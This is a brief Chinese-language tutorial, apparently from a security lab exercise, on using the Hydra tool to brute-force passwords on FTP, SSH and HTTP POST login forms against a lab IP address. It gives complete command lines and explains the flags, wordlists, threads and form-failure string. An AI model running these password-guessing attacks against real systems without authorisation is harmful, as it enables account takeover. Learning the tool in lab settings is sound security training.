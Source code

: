 # Hydra



传递给 Hydra 的选项取决于我们正在攻击的服务（协议）。例如，如果我们想使用用户名 user 和密码列表 passlist.txt 来暴力破解 FTP，我们将使用以下命令：

```
hydra -l user -P passlist.txt ftp://10.10.218.216
```



## ssh

```
hydra -l <username> -P <full path to pass> 10.10.218.216 -t 4 ssh
```



```
hydra -l root -P passwords.txt 10.10.218.216 -t 4 ssh

Hydra 将使用 root 作为 ssh 的用户名
它将尝试 passwords.txt 文件中的密码
将有四个线程并行运行，如 -t 4 所示
```



## webform

也可以使用 Hydra 来暴力破解 Web 表单。您必须知道它正在发出哪种类型的请求；通常使用 GET 或 POST 方法。您可以使用浏览器的网络选项卡（在开发人员工具中）查看请求类型或查看源代码。

```
sudo hydra <username> <wordlist> 10.10.218.216 http-post-form "<path>:<login_credentials>:<invalid_response>"
```



```
hydra -l <username> -P <wordlist> 10.10.218.216 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

登录页面只有 / ，即主 IP 地址。
username 是输入用户名的表单字段
指定的用户名将替换 ^USER^
password 是输入密码的表单字段
提供的密码将替换 ^PASS^
最后， F=incorrect 是登录失败时回显页面出现在服务器回复中的字符串

```

